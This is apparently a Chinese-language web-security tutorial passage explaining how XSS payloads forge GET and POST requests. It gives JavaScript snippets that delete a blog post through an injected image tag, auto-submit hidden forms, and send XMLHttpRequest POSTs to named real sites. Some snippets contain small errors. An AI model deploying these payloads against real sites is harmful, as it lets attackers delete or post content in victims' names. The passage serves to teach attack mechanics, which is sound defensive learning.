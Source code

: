 正常删除该文章的链接是:

http://inqiu.com/manage/entry.do?m=delete&id=156713012

对于攻击者来说，只需要直到文章的id，就能够通过这个请求删除这篇文章了。

攻击者可以通过插入一张图片来发起一个get请求:

```javascript
var img=document.createElement(“img”);
img.scr=”http://blog.sohu.com/manage/entry.do?m=delete&id=156713012″;
document.body.appendChild(img);
```
攻击者只需要让博客的作者执行这段JavaScript代码(XSS Payload)，就会把这篇文章删除。在具体攻击中，攻击者将通过XSS诱使用户执行XSS Payload。

如果网站应用者接受POST请求，那么攻击者如何实施XSS攻击呢?

攻击者将通过Javascript发出一个post请求            在分析的过程中，可以先抓正常提交表单是的post包，然后构造

第一种方法是构造一个form表单，然后自动提交这个表单:

```javascript
var f=document.createElement(“form”);
f.action=””;
f.method=”post”;
document.body.appendChild(f);

var i1=document.createElement(“input”);
i1.name=” ck”;
i1.value=” JiuY”;
f.appendChild(i1);

var i2=document.createElement(“input”);
i2.name=” mb_text”;
i2.value=”testtestseset”;
f.appendChild(i2);

f.submit();
```
如果表单参数很多的话，通过构造DOM的方式，代码将会很冗长。所以可以直接写HTML代码:

```javascript
var dd=document.createElement(“div”);
document.body.appendChild(dd);
dd.innerHTML='<form action=”” method=”post” id=”xssform” name=”mbform”>’+
‘<input type=”hidden” name=”ck” value=”JiuY” />’+
‘<input type=”hidden” name=”mb_text” value=”testetst” />’ +
‘</form>’

document.getElementById(“xssform”).submit();
```
第二种方法是，通过XMLHttpRequest发送一个POST请求:

```javascript
var url=”http://www.douban.com”;
var postStr=”ck=JiuY&mb_text=test1234″;
var ajax=null;
if (window.XMLHttpRequest){
	ajax=new XMLHttpRequest();
} else if (window.ActiveXObject){
	ajax=new ActiveXObject(“Microsoft.XMLHTTP”);
} else {
	return;
}

ajax.open(“POST”,url,true);
ajax.setRequestHeader(“Content-Type”,”application/x-www-form-urlencoded”);
ajax.send(postStr);

```